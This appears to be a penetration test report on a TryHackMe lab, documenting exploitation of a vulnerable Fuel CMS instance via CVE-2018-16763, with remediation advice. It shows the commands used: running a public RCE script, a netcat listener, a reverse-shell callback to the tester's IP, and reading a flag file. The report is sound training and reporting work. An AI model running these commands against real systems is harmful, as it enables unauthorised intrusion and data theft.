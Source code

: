 # Penetration Test Report  
**Engagement:** TryHackMe - Vulnerability Capstone  
**Date:** September 2025  
**Tester:** Colin S  

---

## Summary 
A penetration test was conducted against the TryHackMe Vulnerability Capstone environment to assess the security of the deployed Fuel CMS instance. The assessment discovered that the application discloses its product/version publicly, which allowed mapping to a publicly available remote code execution exploit, successfully deploying a web shell and establishing a reverse shell to access sensitive files.  

To reduce risk, patch the application to a non-vulnerable version, remove any web shells, harden upload handling, apply least-privilege to web processes, and implement network/host monitoring to detect web shell activity and suspicious outbound connections.

 
## Vulnerabilities  

### 1. Application & Version Disclosure
**CVSS v4.0 Base Score:** 6.9 (Medium)  
CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:L/VI:N/VA:N/SC:N/SI:N/SA:N  

**Summary:** The web application exposed product version information on public pages, facilitating targeted exploitation.  

**Background:** The provided web application contained detailed product and version information available publicly. Exposing such detail publicly enables attackers to quickly map to known CVEs and exploits, reducing the time-to-exploit (TTE).  

**Technical details & Evidence:** Navigated to the target web application via ```http://10.201.35.36```  
![Question 1 and 2.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Vulnerability_Capstone/Images/Question%201%20and%202.png)  
Detailed product and version information was quickly located.  

Upon undertaking online research, it was discovered that this product version was vulnerable to CVE-2018-16763.

**Impact:** This disclosure allowed rapid identification of a publicly documented pre-authentication remote code execution vulnerability, directly increasing the likelihood of successful system compromise and a reduction in the TTE.  

**Remediation Advice:** Remove product/version disclosures from public pages and HTTP headers. Maintain an internal inventory of web apps and enforce prompt patching/upgrades. Use automated scanners to detect exposed version strings and flag them for remediation.  

---

### 2. Remote Code Execution (Fuel CMS)
**CVSS v4.0 Base Score:** 9.3 (Critical)  
CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N  

**Summary:** Exposed product and version information enabled identification and exploitation of a publicly available remote code execution vulnerability, resulting in full system compromise.    

**Background:** The Fuel CMS version discovered is vulnerable to CVE-2018-16763. A publicly available remote code execution exploit was discovered and used to gain full system control. Running applications with known critical CVEs enables attackers to rapidly locate and execute exploits on target systems. This can lead to data exfiltration, lateral movement across the network, and installation of backdoors for future use. 

**Technical details & Evidence:**  A publicly available exploit for the identified Fuel CMS version was located (see Appendices).  

Target was exploited as follows
```bash
python3 fuelcms_rce.py 10.201.35.36
```
![Question 5 initial.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Vulnerability_Capstone/Images/Question%205%20initial.png)  

```bash
nc -lnvp 9001
```
![QUestion 5 listener.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Vulnerability_Capstone/Images/Question%205%20listner.png)  

```console
shell_me
10.4.12.97:9001
```
![Question 5 shell.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Vulnerability_Capstone/Images/Question%205%20shell.png)  

```bash
whoami
cd home
cd ubuntu
ls
cat flag.txt
```
![Question 5 flag.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Vulnerability_Capstone/Images/Question%205%20flag.png)  



**Impact:** Remote attackers can obtain interactive shell access, read sensitive files, escalate privileges, establish persistence, and pivot to other hosts — leading to full host compromise and potentially broader network compromise. Data exfiltration can result in significant reputational damage and may expose the organisation to legal or regulatory consequences.  

**Remediation Advice:** Apply vendor fixes or upgrade Fuel CMS to a non-vulnerable release immediately, perform file-integrity scans to remove any malicious artifacts and rotate potentially exposed credentials, harden upload handling through strict server-side validation and non-executable upload directories, implement network controls such as WAF filtering and monitoring of abnormal outbound connections, restrict administrative interface access by IP, harden the host with least-privilege webserver accounts and extend detection by adding SIEM/EDR rules to identify web shell indicators and reverse-shell style connections.  

---

## Appendices  
[CVE Details](https://nvd.nist.gov/vuln/detail/CVE-2018-16763)  
[Exploit Source](https://github.com/AssassinUKG/fuleCMS)
